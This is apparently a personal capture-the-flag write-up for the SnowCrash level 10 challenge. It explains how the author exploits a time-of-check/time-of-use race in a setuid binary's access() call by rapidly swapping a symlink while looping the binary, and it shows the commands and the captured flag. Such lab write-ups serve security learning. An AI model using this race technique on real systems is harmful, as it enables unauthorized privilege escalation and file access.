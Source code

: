 # Snowcrash10

Mandatory part done, hopefully it gets spicy  
This time we have a suid binary and a token which we can't access


```sh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

After inspecting the binary it seems that the app wants to connect to a host on port 6969

So let's write a dirty server and let it run on the client

We still can't open the token even if we bypass the syscall access check  
While looking at documentation on access , it came clear that this piece is exploitable, and how to right here :
https://stackoverflow.com/questions/7925177/access-security-hole

We need to have one link pointing to one file we own so that checks are ok and then getting the proper file.

Stepping in with GDB doesn't seem to do the trick, i assume it is because i changed the link after the end of the access call and not during

What does work is doing it very fast a lot of time and you're bound to get a hit.
Let's do this in three parts
	- changing the link value
	- launching the executable untill we get the flag
	- getting the results

```sh
#Change links
level10:/tmp$ ./script.sh
#Spam the binary
level10:~$ while true; do ./level10 "/tmp/link" 127.0.0.1; done
#Get flag while avoiding connection check spam
level10:/tmp$ ./server | grep -v '.*(' 
woupa2yuojeeaaed06riuj63c
```
That was fun
